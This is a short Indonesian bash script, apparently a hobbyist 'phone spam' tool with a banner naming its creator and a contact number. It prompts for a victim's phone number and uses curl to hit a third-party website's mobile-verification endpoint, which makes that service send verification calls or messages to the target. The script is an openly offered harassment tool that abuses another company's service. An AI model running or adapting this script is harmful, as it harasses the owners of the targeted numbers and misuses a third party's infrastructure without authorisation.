 #!bin/bash
clear
echo "****************************"

echo "____________________________"
echo "PEMBUAT DAFA/MR-D47 ID,KONTAK 089528100123"
echo "____________________________"
echo "****************************"
figlet Telp | lolcat
echo "::::::::::::::::::::::::::::::"
echo '
[1], telepon spam
[2], keluar &kontak admin
'
echo "::::::::::::::::::::::::::::::"
echo
read -p "masukan pilihan kalian lurd : " pil
if [[ $pil == 1 ]]; then
read -p "Masukan No Target contoh:89528100123  : " nomor
link="https://id.jagreward.com/member/verify-mobile/$nomor"
curl -s $link
else
echo "thanks ya lurd udah pakai tools MR-D47ID"
echo "kontak admin?089528100123"
exit
fi
echo
